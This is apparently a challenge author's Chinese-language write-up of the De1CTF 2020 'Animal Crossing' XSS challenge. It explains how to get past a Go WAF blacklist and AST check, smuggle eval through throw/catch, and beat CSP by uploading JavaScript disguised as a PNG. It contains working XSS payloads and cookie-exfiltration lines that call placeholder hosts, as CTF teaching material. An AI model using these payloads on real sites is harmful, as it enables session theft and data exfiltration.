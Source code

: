 ```yaml
---
title: 2020 De1CTF Animal Crossing WriteUp
tags:
  - XSS
  - WriteUp
date: 2020-05-06 13:32:59
toc: true
---
```


一年一度的De1CTF又来了，这次出了道简单XSS题，下面是具体WriteUp。
<!-- more -->

## 题目描述

免费创建护照来展示你的岛屿！

## 第一关：绕过云WAF

云WAF通常有好几层好几种过滤手段，这里我也是设计了了两层防护

### 第一层：黑名单检测

```go
var blackList = []string{
	//global
	"document", "window", "top", "parent", "global", "this",
	//func
	"console", "alert", "log", "promise", "fetch", "eval", "import",
	//char
	"<", ">", "`", "\\*", "&", "#", "%", "\\\\",
	//key
	"if", "set", "get", "with", "yield", "async", "wait", "func", "for", "error", "string",
	//string
	"href", "location", "url", "cookie", "src",
}
```

黑名单的绕过思路无非避开被ban的字符串和字符，这里因为go的iris框架问题（看不出来是golang吧），导致`;`后的东西会被删掉，可以用%0a绕过

### 第二层：静态语法分析

```
1. 将data传入`fmt.Sprintf("'%s';", data)`，然后进行语法解析，这里parse失败直接ban
2. 接着遍历AST进行分析：
   1. VariableExpression/AssignExpression，所有声明语句/赋值语句直接ban
   2. CallExpression，所有函数调用的，且callee不为Identifier的直接ban
      1. ban：`test.test()`、`a[x]()`
      2. pass：`test()`
   3. BracketExpression，也就是成员引用，Member不为Identifier的直接ban，
      1. ban：`a[1]`、`a['xx']`
      2. pass：`a[x]`
```

这一层waf，其实只要摸清ban的套路，针对性找到没被处理的语法来绕过即可，这里我的预期解是用throw传递变量，但是还有很多其他能用的语法（事实证明确实有很多

预期解payload：

```js
data=base64code'%0atry{throw 'ev'%2b'al'}catch(e){try{throw frames[e]}catch(c){c(atob(data))}}%0a//
```

绕过WAF的两层防护之后本地能成功alert就可以用

```js
location.href = "http://xxxx/?" + btoa(ducument.cookie) 
```

打到管理员cookie了，cookie中包含一半的flag：

```
FLAG=De1CTF{I_l1k4_
```



## 第二关：读取400张图片

另外一半flag，题目给了hint：

```
管理员在做什么?
```

读取管理员的document，会发现有400多张png图片，flag就藏在这些图片当中，这里设计的时候预设了下面几种解法：

1. 绕过CSP引入截图库，截图后把图片传到/upload，获取图片地址回传，然后下载图片
2. 用for循环把400个图全部传到/upload，获取400个图片地址然后回传
3. 直接读取图片回传，可以是写脚本一张一张传，也可以是用for循环批量传，但是回传过程需要编码转换，传回去后也需要再转成图片进行拼接

三种方法有简单的也有复杂的，国外三支队伍用的都是第三种，把所有图片dump出去（我猜大佬们没发现/upload接口 23333），而国内的选手用的是解法2，下面我详细介绍下绕过CSP引入截图库的解法，其他的方法也是类似，就不全写出来了（感兴趣的可以去看解出来的大佬们的wp）。

### 绕过CSP引入截图库

本题的主要功能是制造动森护照，主页是有一个上传文件接口的，利用/upload接口，可以上传任意png后缀的文件，然后用fetch读这个png文件，再eval一下，就可以绕过CSP引入html2canvas库并且执行了，上传的png文件如下

```js
	...
  ...
html2canvas.js代码
	...
  ...

// 截图->上传到upload->外传图片地址
html2canvas(document.body).then(function(canvas) {
        const form = new FormData(),
        url = "/upload",
        blob = new Blob([canvas.toDataURL().toString()], {type : "image/png"})
        file = new File([blob], "a.png")
        form.append("file", file)
        fetch(url, {
            method: "POST",
            body: form
        }).then(function(response) {
            return response.json()
        }).then(function(data) {
            location.href="//xxxxxxxxx:8099/?"+data.data.toString()
        })
  })
```

这里我把截图操作的js也写到png里了，主要思路就是截图完用/upload传到服务器，获取返回的图片地址回传给攻击者

### 读取图片并执行

把图片用/upload接口上传后，获取png地址，再用可控的js部分去读取这个图片再执行即可

读取并执行的代码如下：

```js
fetch(`/static/images/xxxxxxxxx.png`).then(res=>res.text()).then(txt=>eval(txt))
```

用绕过第一关的办法包装一下就可以了



最后提交到bot就能接收到管理员界面截图的地址了，直接下载就能看到另一半flag了

```
cool_GamE}
```

最后flag：

```
De1CTF{I_l1k4_cool_GamE}
```

## 出题感想

出这道题的原因是因为最近一段时间工作上接触云WAF比较多，而印象中的xss题还没有静态语法分析相关的，本着realworld的想法就套进来了，而第二关一开始是看到了PNG绕过CSP那篇文章，但是出题到后面发现没加图片校验，算了还是简单点吧23333。  

这次比赛一共4支队伍解出这道题，其中3支国外队伍（老外还是🐂），一支国内队伍，总而言之，个人对这次出的这道题还是比较满意的，真的沉下心去研究绕WAF、外传图片的人也是能学到东西的，这就够啦！